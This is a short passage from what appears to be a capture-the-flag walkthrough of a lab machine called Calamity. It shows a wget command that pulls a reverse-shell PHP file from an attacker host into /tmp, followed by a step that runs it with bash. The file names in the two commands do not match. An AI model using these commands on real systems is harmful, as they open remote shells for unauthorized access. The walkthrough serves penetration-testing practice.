 now we use this so as to upload a reverse shell into our the box in the `tmp` folder.

```sh
wget http://10.10.14.15:8000/revshell.php -P /tmp
```

![](/Linux/Linux-Hard/Calamity/Screenshots/wget.png)

we see that it has uploaded just by looking at out listner

![](/Linux/Linux-Hard/Calamity/Screenshots/revshell.png)

lets confirm and execute the bash 

```sh
bash -f /tmp/shell.php
```

![](/Linux/Linux-Hard/Calamity/Screenshots/shellnot.png)

